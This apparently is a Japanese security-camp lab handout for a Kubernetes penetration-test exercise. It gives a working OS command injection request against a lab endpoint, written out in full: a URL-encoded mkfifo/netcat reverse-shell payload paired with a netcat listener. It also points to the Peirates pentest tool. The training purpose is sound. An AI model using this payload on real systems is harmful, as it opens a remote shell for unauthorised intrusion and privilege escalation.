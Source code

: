 # 簡易ペネトレーションテスト

## 課題1: シナリオに沿った攻撃演習

アプリケーションには脆弱なエンドポイントがあります。脆弱性を利用してクラスタ内に侵入し、権限昇格や横展開を試してみましょう。

参考: [seccamp2024-B6 - 攻撃シナリオ](https://github.com/kyohmizu/seccamp2024-B6/blob/master/ch03_attacking_k8s/attack_scenario.md)

### ステップ
1. OSコマンドインジェクションでクラスタ内に侵入し、権限昇格や横展開を駆使してadmin権限を掌握します

<details><summary>初期侵入のリクエスト</summary>

`/api/admin/info` にOSコマンドインジェクションの脆弱性があります。

ターミナルを2画面用意し、リバースシェルを使って侵入します。

```bash
# ターミナル1
nc -l 4444

# ターミナル2
curl "https://app.seccamp.com/api/admin/info?info=nohup%20mkfifo%20/tmp/f%3B%20nc%20$(hostname -I | awk '{print $1}')%204444%20%3C%20/tmp/f%20%7C%20/bin/sh%20%3E%20/tmp/f%202%3E%261%3B%20rm%20/tmp/f%20%26"
```

</details>

## 課題2: Pirates を使用したペネトレーションテスト

Kubernetesペネトレーションテストツール「Pirates」を使用して、Kubernetesクラスタとコンテナ化されたアプリケーションのセキュリティ評価を実践的に学習します。

https://github.com/inguardians/peirates

### ステップ
1. Pirates をインストールし、利用可能なコマンドを検証してみてください
